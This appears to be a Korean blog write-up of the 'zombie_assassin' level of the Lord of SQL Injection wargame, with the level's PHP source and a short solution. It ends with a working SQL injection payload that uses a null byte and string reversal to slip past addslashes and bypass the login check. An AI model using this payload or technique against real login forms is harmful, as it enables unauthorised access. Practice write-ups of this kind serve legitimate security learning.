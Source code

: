 ```yaml
---
layout: post
title:  "los prob_zombie_assassin"
date:   2019-10-22
excerpt: "Lord of Sql Injection"
tag:
- los
- sqli
- wargame
- webhacking
comments: true
---
```

> query : select id from prob_zombie_assassin where id='' and pw=''

~~~ php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();
  $_GET['id'] = strrev(addslashes($_GET['id']));
  $_GET['pw'] = strrev(addslashes($_GET['pw']));
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
~~~

# Solve
1. strrev, addslashes 함수

2. '(싱글쿼터) 이외에 addslashed가 적용되는 문자 -> %00, "

3. \' 문자취급

4. 최종 쿼리문 -> select id from prob_zombie_assassin where id='0\' and pw='or 1#'

5. strrev 생각하며 값을 집어넣음

### ?id=%00&pw=%231%20ro

## ZOMBIE_ASSASSIN Clear!
